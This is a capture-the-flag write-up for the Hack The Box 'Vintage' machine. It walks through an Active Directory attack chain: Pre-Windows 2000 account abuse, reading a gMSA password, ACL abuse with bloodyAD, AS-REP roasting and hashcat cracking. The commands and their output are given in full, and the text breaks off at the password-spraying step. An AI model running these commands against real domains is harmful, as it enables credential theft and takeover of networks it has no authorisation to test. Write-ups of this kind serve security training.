

## Summary

The box is wrapped around `authentication` with `Kerberos` and starts with the `abuse` of `Pre-Windows 2000` compatible `computer accounts`. After that it is necessary to abuse the `ReadGMSAPassword` permission to move laterally within the `Active Directory`. To get close to the `Foothold` a chain of `Access Control Entries (ACE)` and `Access Control Lists (ACL)` abuse which utilizes `GenericWrite` and `GenericAll` to finally get to prepare `ASREPRoasting` is required. From there on a `password` can be obtained and verified by `password spraying` which matches another users `account` and finally gives `shell access` onto the `box` to grab the `user.txt`. To `escalate privilges` even further in `Active Directory` the `attack path` requires to `decrypt` the `data blob` of the `Data Protection API (DPAPI)` offline. With the `password` then a user can be impersonated by `adding` an already compromised user to the `DELEGTEDADMINS` group in order to perform a `DCSync` to finally get access to an `admin user` and grab the `root.txt`.

## Table of Contents

- [Introduction](#Introduction)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Active Directory Enumeration](#Active-Directory-Enumeration)
- [Foothold](#Foothold)
    - [Abusing Pre-Windows 2000 Compatibility](#Abusing-Pre-Windows-2000-Compatibility)
    - [Read Group Managed Service Accounts (GMSA) Password](#Read-Group-Managed-Service-Accounts-GMSA-Password)
    - [GenericWrite Abuse](#GenericWrite-Abuse)
    - [GenericAll Abuse](#GenericAll-Abuse)
    - [ASREPRoasting](#ASREPRoasting)
    - [Cracking the Hashes](#Cracking-the-Hashes)
    - [Password Spraying](#Password-Spraying)
    - [Configure Kerberos Realm](#Configure-Kerberos-Realm)
- [user.txt](#usertxt)
- [Enumeration](#Enumeration)
- [Privilege Escalation to c.neri_adm](#Privilege-Escalation-to-cneri_adm)
    - [Dumping Data Protection API (DPAPI)](#Dumping-Data-Protection-API-DPAPI)
- [Privilege Escalation to SYSTEM](#Privilege-Escalation-to-SYSTEM)
- [root.txt](#roottxt)

## Introduction

As is common in real life Windows pentests, you will start the Vintage box with credentials for the following account: `P.Rosa / Rosaisbest123`.

| Username | Password      |
| -------- | ------------- |
| P.Rosa   | Rosaisbest123 |

## Reconnaissance

### Port Scanning

As usual we started by performing `three` different `port scans` using `Nmap`. One quick `basic scan`, one for `all ports` and one scan on `UDP` to cover most of the paths from the start.

Since the box provided `credentials` we didn't expect anything besides the typical ports for a `Domain Controller` and therefore we added `vintage.htb` and `dc01.vintage.htb` to our `/etc/hosts` file.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.124.159
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-30 20:02 CET
Nmap scan report for 10.129.124.159
Host is up (0.014s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-30 19:02:33Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-11-30T19:02:35
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.50 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.124.159
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-30 20:04 CET
Nmap scan report for vintage.htb (10.129.124.159)
Host is up (0.015s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-30 19:06:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49683/tcp open  msrpc         Microsoft Windows RPC
57509/tcp open  msrpc         Microsoft Windows RPC
57522/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-30T19:07:50
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 219.45 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.124.159
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-30 20:55 CET
Nmap scan report for vintage.htb (10.129.124.159)
Host is up (0.018s latency).
Not shown: 997 open|filtered udp ports (no-response)
PORT    STATE SERVICE      VERSION
53/udp  open  domain       (generic dns response: NOTIMP)
88/udp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-11-30 19:55:46Z)
123/udp open  ntp          NTP v3
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-UDP:V=7.94SVN%I=7%D=11/30%Time=674B6DD2%P=x86_64-pc-linux-gnu%r(
SF:NBTStat,32,"\x80\xf0\x80\x82\0\x01\0\0\0\0\0\0\x20CKAAAAAAAAAAAAAAAAAAA
SF:AAAAAAAAAAA\0\0!\0\x01");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5082.62 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.124.159  vintage.htb
10.129.124.159  dc01.vintage.htb
```

### Enumeration of Port 445/TCP

Just to make sure we performed a quick check on port `445/TCP` using `NetExec`.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.124.159 -u '' -p '' --shares
SMB         10.129.124.159  445    10.129.124.159   [*]  x64 (name:10.129.124.159) (domain:10.129.124.159) (signing:True) (SMBv1:False)
SMB         10.129.124.159  445    10.129.124.159   [-] 10.129.124.159\: STATUS_NOT_SUPPORTED 
SMB         10.129.124.159  445    10.129.124.159   [-] IndexError: list index out of range
SMB         10.129.124.159  445    10.129.124.159   [-] Error enumerating shares: STATUS_USER_SESSION_DELETED
```

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.124.159 -u ' ' -p ' ' --shares
SMB         10.129.124.159  445    10.129.124.159   [*]  x64 (name:10.129.124.159) (domain:10.129.124.159) (signing:True) (SMBv1:False)
SMB         10.129.124.159  445    10.129.124.159   [-] 10.129.124.159\ :  STATUS_NOT_SUPPORTED
```

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.124.159 -u 'guest' -p ' ' --shares
SMB         10.129.124.159  445    10.129.124.159   [*]  x64 (name:10.129.124.159) (domain:10.129.124.159) (signing:True) (SMBv1:False)
SMB         10.129.124.159  445    10.129.124.159   [-] 10.129.124.159\guest:  STATUS_NOT_SUPPORTED
```

### Domain Enumeration

Next we moved on to `enum4linux-ng` to have a look on the `Domain` before we actually started dumping the `configuration` of the `Active Directory`.

```c
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.124.159
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.124.159
[*] Username ......... ''
[*] Random Username .. 'iklxjepq'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 10.129.124.159    |
 =======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ======================================================
|    Domain Information via LDAP for 10.129.124.159    |
 ======================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: vintage.htb

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.124.159    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 10.129.124.159    |
 ===========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true                                                                                                                                                                                                                             
  SMB 3.1.1: true                                                                                                                                                                                                                           
Preferred dialect: SMB 3.0                                                                                                                                                                                                                  
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 =============================================================
|    Domain Information via SMB session for 10.129.124.159    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[-] Could not enumerate domain information via unauthenticated SMB
[*] Enumerating via unauthenticated SMB session on 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ===========================================
|    RPC Session Check on 10.129.124.159    |
 ===========================================
[*] Check for null session
[-] Could not establish null session: STATUS_NOT_SUPPORTED
[*] Check for random user
[-] Could not establish random user session: STATUS_NOT_SUPPORTED
[-] Sessions failed, neither null nor user sessions were possible

 =================================================
|    OS Information via RPC for 10.129.124.159    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: unknown                                                                                                                                                                                                                                 
OS version: not supported                                                                                                                                                                                                                   
OS release: null                                                                                                                                                                                                                            
OS build: null                                                                                                                                                                                                                              
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 5.75 seconds
```
### Active Directory Enumeration

As we moved on we noticed that the box only accepted `authentication` via `Kerberos`. Therefore we `requested` a `Kerberos ticket` using `Impacket` to `dump` the `configuration` of the `Active Directory` using `BloodHound`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ impacket-getTGT vintage.htb/P.rosa:Rosaisbest123
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in P.rosa.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ export KRB5CCNAME=P.rosa.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ bloodhound-python -u 'P.Rosa' -p 'Rosaisbest123' -d 'vintage.htb' -ns 10.129.124.159 -k -c ALL --zip
INFO: Found AD domain: vintage.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 16 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: FS01.vintage.htb
INFO: Querying computer: dc01.vintage.htb
WARNING: Could not resolve: FS01.vintage.htb: The DNS query name does not exist: FS01.vintage.htb.
INFO: Done in 00M 07S
INFO: Compressing output into 20241130205730_bloodhound.zip
```

At the first glance we checked for the available `users` and created a `list` to have it just in case.


```c
┌──(kali㉿kali)-[/media/…/Machines/Vintage/files/dump]
└─$ cat 20241130205730_users.json | jq | grep \"name\" | awk '{print $2}' | sed -e 's/"//g' -e 's/,//g' -e 's/@.*//'

NT
L.BIANCHI_ADM
GMSA01$
C.NERI_ADM
SVC_ARK
SVC_LDAP
SVC_SQL
P.ROSA
C.NERI
G.VIOLA
L.BIANCHI
R.VERDI
M.ROSSI
KRBTGT
GUEST
ADMINISTRATOR
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ cat usernames.txt 
L.BIANCHI_ADM
GMSA01$
C.NERI_ADM
SVC_ARK
SVC_LDAP
SVC_SQL
P.ROSA
C.NERI
G.VIOLA
L.BIANCHI
R.VERDI
M.ROSSI
GUEST
ADMINISTRATOR
```

## Foothold
### Abusing Pre-Windows 2000 Compatibility

For having a different view on potential `attack paths` we fired up `AD Miner` and immediately found a `Pre-Windows 2000` compatible `computer account`.

- [https://github.com/Mazars-Tech/AD_Miner](https://github.com/Mazars-Tech/AD_Miner)
- [https://github.com/garrettfoster13/pre2k](https://github.com/garrettfoster13/pre2k)


When we checked out the `computer account` in our `dump` we were sure that this had to be the `foothold` to the box.


To attack the `computer account` we needed to use `pre2k` and therefore we fired up a `virtual environment` to prevent `breaking` any `system packages` within `Python`.

```c
┌──(kali㉿kali)-[~/opt/10_post_exploitation/pre2k]
└─$ python3 -m venv venv
```

```c
┌──(kali㉿kali)-[~/opt/10_post_exploitation/pre2k]
└─$ source venv/bin/activate
```

```c
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pre2k]
└─$ pip3 install .
```

Then we created a `file` which contained all available `computer accounts`.
`
```c
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pre2k]
└─$ cat computers.txt 
GMSA$
FS01$
```

And luckily for us we got the `password` for the `computer account` of `FS01$`.

```c
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pre2k]
└─$ pre2k unauth -d vintage.htb -dc-ip 10.129.124.159 -inputfile computers.txt 

                                ___    __         
                              /'___`\ /\ \        
 _____   _ __    __          /\_\ /\ \\ \ \/'\    
/\ '__`\/\`'__\/'__`\ _______\/_/// /__\ \ , <    
\ \ \L\ \ \ \//\  __//\______\  // /_\ \\ \ \\`\  
 \ \ ,__/\ \_\\ \____\/______/ /\______/ \ \_\ \_\
  \ \ \/  \/_/ \/____/         \/_____/   \/_/\/_/
   \ \_\                                      v3.1    
    \/_/                                          
                                            @garrfoster
                                            @Tw1sm          

[08:04:01] INFO     Testing started at 2024-12-01 08:04:01                       
[08:04:01] INFO     Using 10 threads                                             
[08:04:01] INFO     VALID CREDENTIALS: vintage.htb\FS01$:fs01
```

| Account | Password |
| ------- | -------- |
| FS01$   | fs01     |

### Read Group Managed Service Accounts (GMSA) Password

Then we `marked` the account of `FS01$` as `owned` and looked for the next step. So the `group` of `DOMAIN COMPUTERS@VINTAGE.HTB` was able to `read` the `Group Managed Service Accounts (GMSA)` password of `GMSA01$`.


As we already knew a `Kerberos ticket` was required and so we requested one for `FS01$` in order to abuse the `ReadGMSAPassword` permission.

```
```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ impacket-getTGT vintage.htb/FS01$:fs01
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in FS01$.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ export KRB5CCNAME=FS01\$.ccache
```

And with the help of `bloodyAD` we got the `NTLM hash` of `GMSA01$`.

- [https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.129.124.159 -d vintage.htb -k get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:54311f0ed05b807a7aaf5943b595f224
msDS-ManagedPassword.B64ENCODED: c6qwf6x+EXiEYKGhCu/wTBcnp6hz3ppQG2uReaV8QV+JCaIhn2MobwBxF4Q6fd3W5P13wvh2Jf/Wp2WHsjIEjkbF0duDHoCBAK31Q+BoQg0eUHbsRcksNrkLcPtkZ5eUhK+TzgpXeFKt0VCOWFkAOStKE1H5PDfUGoC2xuP+Tceg7iV0IcMBaR8Db3UgqaqP2LLRiimuL6ZO4xl6sSRKrdRQEQOR7L9fFw9JW7myCsbj2TPxFc5WaMQtWi456OvwBQn4jhdty5tSjv2uMlcq+sQMz60voxH6sClACPGKJMCr2FNVJP6dd1GTdvh6n5Dbh/yhHCAF8UzYeGXv2Nx3Dw==
```

### GenericWrite Abuse

We repeated the procedure from before and figured out that `GMSA01$` was able to `add` himself to the `SERVICEMANAGERS@VINTAGE.HTB` group.


We requested another `Kerberos ticket` but this time using the `NTLM hash` of `GMSA01$`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ impacket-getTGT vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:54311f0ed05b807a7aaf5943b595f224 -dc-ip 10.129.124.159
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in GMSA01$.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ export KRB5CCNAME=GMSA01\$.ccache
```

And a second time `bloodyAD` helped us out adding our initial `user` named `p.rosa` to the `SERVICEMANAGERS@VINTAGE.HTB` group.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.129.124.159 -d vintage.htb -k add groupMember 'servicemanagers' 'p.rosa'               
[+] p.rosa added to servicemanagers
```

### GenericAll Abuse

From this point on we had `GenericAll` permissions on `three` different `service accounts`.


To start testing them we requested a `Kerberos ticket` once again but this time as `p.rosa`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ impacket-getTGT vintage.htb/p.rosa:Rosaisbest123
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in p.rosa.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ export KRB5CCNAME=p.rosa.ccache
```

### ASREPRoasting

Our plan was to set a `Service Principal Name (SPN)` to the `accounts` and then go along with `ASREPRoasting` to obtain some `hashes`. Therefore we started with `SVC_SQL` and set an `SPN` using `bloodyAD` - again.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ bloodyAD --host dc01.vintage.htb -d vintage.htb -k set object 'svc_sql' servicePrincipalName
[+] svc_sql's servicePrincipalName has been updated
```

We knew that the `account` of `SVC_SQL` was not `enabled` so we moved on and used the file from the `pull request` on `Impacket` and `enabled` the `account` using `net.py`.

- [https://github.com/fortra/impacket/pull/1801](https://github.com/fortra/impacket/pull/1801)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ python3 ~/opt/10_post_exploitation/impacket-fork/impacket/examples/net.py vintage.htb/p.rosa:Rosaisbest123@dc01.vintage.htb -k user -enable svc_sql
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Enabling user account 'svc_sql'
[+] user account enabled succesfully!
```

After that we needed to modify the `account` and set `DONT_REQ_PREAUTH` as preparation for the `ASREPRoast`. We set the value on all accounts possible which were `SVC_SQL` which we already prepared and `SVC_ARK`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.129.124.159 -d vintage.htb -k add uac 'svc_sql' -f DONT_REQ_PREAUTH       
[-] ['DONT_REQ_PREAUTH'] property flags added to svc_sql's userAccountControl
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.129.124.159 -d vintage.htb -k add uac 'svc_ark' -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to svc_ark's userAccountControl
```

After that set up we used the `asreproast module` of `NetExec` and indeed got a both `hashes`!

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ netexec ldap 10.129.124.159 -u 'p.rosa' -p 'Rosaisbest123' -k --asreproast hashes.asreproast
/usr/lib/python3/dist-packages/bloodhound/ad/utils.py:115: SyntaxWarning: invalid escape sequence '\-'
  xml_sid_rex = re.compile('<UserId>(S-[0-9\-]+)</UserId>')
LDAP        10.129.124.159  389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        10.129.124.159  389    dc01.vintage.htb [+] vintage.htb\p.rosa:Rosaisbest123 
LDAP        10.129.124.159  389    dc01.vintage.htb [*] Total of records returned 5
LDAP        10.129.124.159  389    dc01.vintage.htb $krb5asrep$23$svc_sql@VINTAGE.HTB:35977079e4041f70dd68130f8e1786fd$77e430da1f05da98558242332899e0a8fd73d83f69995e03bcebc0e154e97995ef0a0eaa8a59ae4e78e5e6ef7fce2089038457f17b7391cf6996548637fdf5623af899071257d4ea14f75740592893a5fdcc37adfdf4411f0ce9facd6d187077bfa07b2c9fbceef2d0cde7509fd6ebd202a3d183e895f5dc07f72b1ecca99676832bb17de9518cc9244dce4d866eb17d669c9037889e10042f8f084748e5797672affc4a38ed5500019803c8d4af8683838670a20a56665357a0bcfb723c426203dff8ece23903ef6cb51726171a0189154ae68c462310601374c8e789e6ddc741f646e87718af5038b4                                                                                                                         
LDAP        10.129.124.159  389    dc01.vintage.htb $krb5asrep$23$svc_ark@VINTAGE.HTB:fb772397aadb1ce4ef266080bd69132e$a67e74bec016fad924eea940f9c2e5fcc4b41efc7323599fdf5c8ad69e2ce49dffda9611ff31838b2148712d096c90426f1539bf49c946762a3d0e2808c0420677d2588f3683117002022a926d707fb5ac2902236ef3cd2c9ba3ec93ed6d307df0b0402d524a14131a2551b8d1613c6cfc45773a84688c84a4b3113afa7e5067b671e3f04e31322ee0671f3db1ba0fca806d989cc48bf8d66b59f82df4cec9d0ab193277c0d0c8104ea7f736d0f4473a45f6084d83fa8f5d25296a35ebcb91318a68905eeb98ccff4ca4731293d77e2b78672a8459425be289d05a6a17948fac77e9f06e80d36c30c59e
```

### Cracking the Hashes

As next logical step we threw the `hashes` into `hashcat` and `cracked` the `password` of `SVC_SQL`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ cat hashes.asreproast 
$krb5asrep$23$SVC_ARK@VINTAGE.HTB:837f579013b8dccc6ba64cecc3ff10e5$52a6fb565aa21a1b519afdc6a9b9d06eb85109777055c6973346bf0e7eb77531c8eed37ec44a259d643a4fe1246908893d84c056c270bfb6c3613226592fbc9d4b137761585388c9055d6cf8575f1207a3e01820f55cb09d2c9ca681f34b385c1ba0270ed7efc3a21401f738e1aacb20aa112bd05919a17c006bd9aad586388185a3e89635da012c485962dca90b490947d0306296d74218fbaad9d5fcf8e89a838696ba5545d312f93b29e5ef10edbdf405b2381bc59f17a63a98addc97005aae575da49e4d5e72aae34be31d8c92d49c56ea7e8d03cdea51114d5e177e2b912361369cfb32309d07ed
$krb5asrep$23$svc_sql@VINTAGE.HTB:35977079e4041f70dd68130f8e1786fd$77e430da1f05da98558242332899e0a8fd73d83f69995e03bcebc0e154e97995ef0a0eaa8a59ae4e78e5e6ef7fce2089038457f17b7391cf6996548637fdf5623af899071257d4ea14f75740592893a5fdcc37adfdf4411f0ce9facd6d187077bfa07b2c9fbceef2d0cde7509fd6ebd202a3d183e895f5dc07f72b1ecca99676832bb17de9518cc9244dce4d866eb17d669c9037889e10042f8f084748e5797672affc4a38ed5500019803c8d4af8683838670a20a56665357a0bcfb723c426203dff8ece23903ef6cb51726171a0189154ae68c462310601374c8e789e6ddc741f646e87718af5038b4
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt                                                                                

hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i9-10900 CPU @ 2.80GHz, 2917/5899 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc_sql@VINTAGE.HTB:35977079e4041f70dd68130f8e1786fd$77e430da1f05da98558242332899e0a8fd73d83f69995e03bcebc0e154e97995ef0a0eaa8a59ae4e78e5e6ef7fce2089038457f17b7391cf6996548637fdf5623af899071257d4ea14f75740592893a5fdcc37adfdf4411f0ce9facd6d187077bfa07b2c9fbceef2d0cde7509fd6ebd202a3d183e895f5dc07f72b1ecca99676832bb17de9518cc9244dce4d866eb17d669c9037889e10042f8f084748e5797672affc4a38ed5500019803c8d4af8683838670a20a56665357a0bcfb723c426203dff8ece23903ef6cb51726171a0189154ae68c462310601374c8e789e6ddc741f646e87718af5038b4:Zer0the0ne
Cracking performance lower than expected?                 

* Append -O to the commandline.
  This lowers the maximum supported password/salt length (usually down to 32).

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: hashes.asreproast
Time.Started.....: Sun Dec  1 11:42:30 2024 (13 secs)
Time.Estimated...: Sun Dec  1 11:42:43 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1247.9 kH/s (1.19ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/2 (50.00%) Digests (total), 1/2 (50.00%) Digests (new), 1/2 (50.00%) Salts
Progress.........: 28688770/28688770 (100.00%)
Rejected.........: 0/28688770 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 82%

Started: Sun Dec  1 11:42:28 2024
Stopped: Sun Dec  1 11:42:44 2024
```

| Username | Password   |
| -------- | ---------- |
| svc_sql  | Zer0the0ne |

### Password Spraying

With the newly found `password` we started `password spraying` against all know `usernames` and got a hit on `C.NERI`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
